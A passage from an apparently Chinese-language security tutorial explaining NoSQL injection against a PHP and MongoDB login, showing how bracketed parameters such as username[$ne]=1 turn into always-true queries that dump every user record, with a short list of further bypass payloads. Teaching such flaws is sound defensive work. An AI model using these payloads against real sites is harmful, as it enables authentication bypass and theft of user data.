```php
```

如下，当正常用户想要登陆 whoami 用户时，POST 方法提交的数据如下：

```php
username=whoami&password=657260
```

进入 PHP 后的程序数据如下：

```php
array(
    'username' => 'whoami',
    'password' => '657260'
)
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({'username':'whoami', 'password':'657260'})
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
```

我们从代码中可以看出，这里对用户输入没有做任何过滤与校验，那么我们可以通过 `$ne` 关键字构造一个永真的条件就可以完成 NoSQL 注入：

```php
username[$ne]=1&password[$ne]=1
```

如下图所示，成功查出所有的用户信息，说明成功注入了一个永真查询条件：

![img](https://p0.ssl.qhimg.com/t012d37e38126902b7e.png)

提交的数据进入 PHP 后的数据如下：

```php
array(
    'username' => array('$ne' => 1),
    'password' => array('$ne' => 1)
)
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({'username':{$ne:1}, 'password':{$ne:1}})
{ "_id" : ObjectId("60fa9c7b257f18542b68c4b8"), "username" : "admin", "password" : "123456" }
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
{ "_id" : ObjectId("60fa9c85257f18542b68c4ba"), "username" : "bunny", "password" : "964795" }
{ "_id" : ObjectId("60fa9c88257f18542b68c4bb"), "username" : "bob", "password" : "965379" }
```

由于 users 集合中 username 和 password 都不等于 1，所以将所有的文档数据查出，这很可能是真实的，并且可能允许攻击者绕过身份验证。

对于 PHP 本身的特性而言，由于其松散的数组特性，导致如果我们发送 `value=1` 那么，也就是发送了一个 `value` 的值为 1 的数据。如果发送 `value[$ne]=1` 则 PHP 会将其转换为数组 `value=array($ne=>1)`，当数据到了进入 MongoDB 后，原来一个单一的 `{"value":1}` 查询就变成了一个 `{"value":{$ne:1}` 条件查询。同样的，我们也可以使用下面这些作为 payload 进行攻击：

```php
username[$ne]=&password[$ne]=
username[$gt]=&password[$gt]=
username[$gte]=&password[$gte]=
```
